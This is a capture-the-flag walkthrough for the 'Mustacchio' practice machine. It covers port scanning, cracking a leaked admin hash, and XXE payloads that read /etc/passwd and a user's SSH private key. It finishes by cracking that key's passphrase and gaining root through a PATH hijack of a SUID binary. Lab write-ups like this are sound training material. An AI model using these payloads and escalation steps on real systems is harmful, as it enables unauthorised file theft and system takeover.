## 10. Mustacchio

``` 
nmap -p- -sC -sV IP
```

```
gobuster dir -u url_here -w wordlist
```

We found a directory called /custom

IP/custom

Now if we go to js folder inside custom, we found a backup file called users.bak

```
file users.bak
```



We found our database being SQLite

Now if we want to see content of our file we will be using sqlitebrowser tool

```
 sqlitebrowser users.bak
```

Now a tab opens which shows us that we have credentials in it

Click on Browse Data tab and we got our admin credentials



The password is in hash format

Let us find its hash type

```
hash-identifier 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```



We got our hash as SHA-1

Let us break this hash

```
echo '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b' > file.hash
```

Now I have already done this so I will delete my john pot file

```
sudo rm ~/.john/john.pot   
```

```
john file.hash --wordlist=rockyou.txt --format=RAW-SHA1
```



We got our password bulldog19

We have a port 8765 open which has a login page so let us use these credentials

We are in our admin panel now



Now I didnt find it useful but I did found somethings in page soure



I got a username barry and a path to another .bak file

Go to the browser and find this page

```
http://IP:8765/auth/dontforget.bak
```

I got another file

```
file dontforget.bak
```



Now this one is an XML file

```
subl dontforget.bak
```



Copy whole xml code and put it inside the comment box and we found that we can do XXE in this

We will add 

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

This into our XML code

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

If we run this and we get our etc/passwd file then we can get rsa file of our user barry too



We got our file now make some changes in DOCTYPE

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
```

Like this

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

Now we got our rsa key now lets login using that particular rsa key

Now take this key and crack it

```
ssh2john id_rsa > book.hash
```

```
john book.hash --wordlist=rockyou.txt
```



We got our password 

```
urieljames
```

```
ssh -i id_rsa barry@ip
```

```
cat user.txt
```



```
find / -perm -u=s 2>/dev/null
```

We found a SUID binary out of ordinary



```
 strings /home/joe/live_log 
```



As we solved kenobi last time, we found a command in that too which was curl and we were able to create a file and then give it a shell and then use it to gain access

```
cd /tmp
```

```
echo "/bin/bash" > tail
```

```
chmod 777 tail
```

```
export PATH=/tmp:$PATH
```

```
/home/joe/live_log
```

```
cd /root
```

```
cat root.txt
```



